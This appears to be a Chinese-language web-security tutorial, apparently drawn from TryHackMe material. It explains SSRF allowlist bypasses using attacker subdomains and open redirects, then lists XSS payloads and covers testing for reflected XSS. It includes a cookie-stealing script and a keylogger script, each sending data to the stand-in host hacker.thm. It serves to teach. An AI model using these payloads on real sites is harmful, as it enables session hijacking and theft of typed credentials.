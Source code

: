 ### **允许列表**

允许列表是指所有请求都会被拒绝，除非它们出现在列表中或与特定模式匹配，例如，参数中使用的 URL 必须以 **https://website. thm开头的规则。** 攻击者可以通过在攻击者的域名上创建子域（例如 https://website. thm .attackers-domain. thm）来快速绕过此规则。应用程序逻辑现在将允许此输入并让攻击者控制内部HTTP请求。

  
### **打开重定向**

如果上述绕过方法不起作用，攻击者还有另一个绝招，那就是开放重定向。开放重定向是服务器上的一个端点，网站访问者会自动重定向到另一个网站地址。以链接 https://website. thm /link?url=https://tryhackme.com 为例。创建此端点是为了记录访问者出于广告/营销目的点击此链接的次数。但想象一下，存在一个潜在的SSRF漏洞，其严格的规则只允许以 https://website. thm / 开头的 URL。攻击者可以利用上述功能将内部HTTP请求重定向到攻击者选择的域。

# xss 跨站点脚本漏洞

## xss payload

#### **什么是有效载荷？**

在XSS中，payload 是我们希望在目标计算机上执行的 JavaScript 代码。payload 分为两个部分：意图和修改。

#### **概念证明：**

这是最简单的有效载荷，您要做的就是证明您可以在网站上实现XSS。这通常是通过在页面上弹出一个带有文本字符串的警告框来实现的，例如：

`<script>alert('XSS');</script>`

#### **会话窃取：**

用户会话的详细信息（例如登录令牌）通常保存在目标机器的 cookie 中。下面的 JavaScript 会获取目标的 cookie，对 cookie 进行 base64 编码以确保成功传输，然后将其发布到黑客控制的网站进行记录。一旦黑客拥有这些 cookie，他们就可以接管目标的会话并以该用户的身份进行记录。

  

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

  

#### **键盘记录器：**

以下代码充当键盘记录器。这意味着您在网页上输入的任何内容都将被转发到黑客控制的网站。如果安装有效负载的网站接受用户登录或信用卡详细信息，这可能会造成严重破坏。

  

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

## **Reflected XSS** 反射型xss

当HTTP请求中用户提供的数据未经任何验证就包含在网页源中时，就会发生反射型XSS 。

应用程序不检查**错误**参数的内容，这使得攻击者可以插入恶意代码。

### **如何测试反射型XSS：**  

您需要测试每个可能的入口点；其中包括：

- URL 查询字符串中的参数
- URL 文件路径
- 有时是HTTP标头（尽管实际上不太可能被利用）
